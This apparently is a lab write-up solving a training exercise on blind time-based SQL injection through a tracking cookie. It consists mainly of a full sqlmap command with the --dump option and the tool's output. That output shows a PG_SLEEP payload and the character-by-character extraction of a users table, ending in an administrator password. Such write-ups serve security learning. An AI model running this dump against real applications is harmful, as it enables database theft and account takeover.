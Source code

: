 ```yaml
---
layout: post
title:  "Blind SQL injection with time delays and information retrieval"
date:   2024-09-25 09:39:54 +0530
categories: [BSCP, SQLi]
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution 

Assume that let's continue with the previous lab where we found a time based SQL injection and now in the sqlmap we can add the following argument `--dump` which will actually dumps the database with the following command 

```sh
sqlmap -u "https://0ab200aa049122c1847d9bdf00600046.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" --dbms="PostgreSQL" --level 2 --threads 5 --dump
```

After sometime, here we found that the `TrackingId` parameter inside cookie is vulnerable to SQL injection 

```sh
[11:29:17] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:29:17] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:29:18] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[11:29:19] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[11:29:30] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[11:29:40] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[11:29:50] [INFO] checking if the injection point on Cookie parameter 'TrackingId' is a false positive
Cookie parameter 'TrackingId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 588 HTTP(s) requests:
---
Parameter: TrackingId (Cookie)
    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: TrackingId=4HWFjkvkQS0pdMwd' AND 4567=(SELECT 4567 FROM PG_SLEEP(5))-- AWZm; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i
```

Finally, After two long hours it worked and got the admin password

```sh
[12:11:49] [INFO] fetching tables for database: 'public'
[12:11:49] [INFO] fetching number of tables for database 'public'
[12:11:49] [INFO] retrieved: 2
[12:12:04] [INFO] retrieving the length of query output
[12:12:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                        
8
[12:12:57] [INFO] retrieved: ___c____ 1/8 (12%)
[12:12:57] [ERROR] invalid character detected. retrying..
[12:13:26] [INFO] retrieved: tracking           
[12:13:26] [INFO] retrieving the length of query output
[12:13:26] [INFO] retrieved: 5
[12:14:06] [INFO] retrieved: users           
[12:14:06] [INFO] fetching columns for table 'users' in database 'public'
[12:14:06] [INFO] retrieved: 3
[12:14:26] [INFO] retrieving the length of query output
[12:14:26] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                        
5
[12:15:10] [INFO] retrieved: __a__ 1/5 (20%)
[12:15:20] [ERROR] invalid character detected. retrying..
[12:15:20] [INFO] retrieved: _ma__ 2/5 (40%)
[12:15:20] [ERROR] invalid character detected. retrying..
[12:15:34] [INFO] retrieved: ema_l 4/5 (80%)
[12:15:39] [ERROR] invalid character detected. retrying..
[12:15:53] [INFO] retrieved: email           
[12:15:53] [INFO] retrieving the length of query output
[12:15:53] [INFO] retrieved: 8
[12:16:27] [INFO] retrieved: _a______ 1/8 (12%)
[12:16:37] [ERROR] invalid character detected. retrying..
[12:17:01] [INFO] retrieved: password           
[12:17:01] [INFO] retrieving the length of query output
[12:17:01] [INFO] retrieved: 8
[12:17:45] [INFO] retrieved: _se_____ 2/8 (25%)
[12:17:45] [ERROR] invalid character detected. retrying..
[12:17:48] [INFO] retrieved: _se__a__ 3/8 (37%)
[12:17:50] [ERROR] invalid character detected. retrying..
[12:17:50] [ERROR] invalid character detected. retrying..
[12:17:59] [ERROR] invalid character detected. retrying..
[12:18:17] [INFO] retrieved: username           
[12:18:17] [INFO] fetching entries for table 'users' in database 'public'
[12:18:17] [INFO] fetching number of entries for table 'users' in database 'public'
[12:18:17] [INFO] retrieved: 3
[12:18:37] [INFO] retrieving the length of query output
[12:18:37] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                        

[12:19:00] [INFO] retrieved:  
[12:19:36] [INFO] retrieving the length of query output
[12:19:36] [INFO] retrieved: 20
[12:20:23] [INFO] retrieved: 9___1_______________ 2/20 (10%)
[12:20:24] [ERROR] invalid character detected. retrying..
[12:20:28] [INFO] retrieved: 9d__1_______________ 3/20 (15%)
[12:20:28] [ERROR] invalid character detected. retrying..
[12:21:33] [INFO] retrieved: 9daf1re9zls_r_______ 12/20 (60%)
[12:21:34] [ERROR] invalid character detected. retrying..
[12:22:22] [INFO] retrieved: 9daf1re9zls_rzycg_q_ 17/20 (85%)
[12:22:31] [ERROR] invalid character detected. retrying..
[12:22:45] [INFO] retrieved: 9daf1re9zlsxrzycg6q2             
[12:22:45] [INFO] retrieving the length of query output
[12:22:45] [INFO] retrieved: 1
[12:23:11] [ERROR] invalid character detected. retrying..
3
[12:23:49] [INFO] retrieved: a__i_________ 2/13 (15%)
[12:23:50] [ERROR] invalid character detected. retrying..
[12:24:28] [INFO] retrieved: administra__r 11/13 (84%)
[12:24:28] [ERROR] invalid character detected. retrying..
[12:24:52] [INFO] retrieved: administrator  
```

Now login with those creds which is username is `administrator` and password is `9daf1re9zlsxrzycg6q2` on successful login.. Lab will be solved 

![]({{ site.baseurl }}/assets/images/sqli53.png)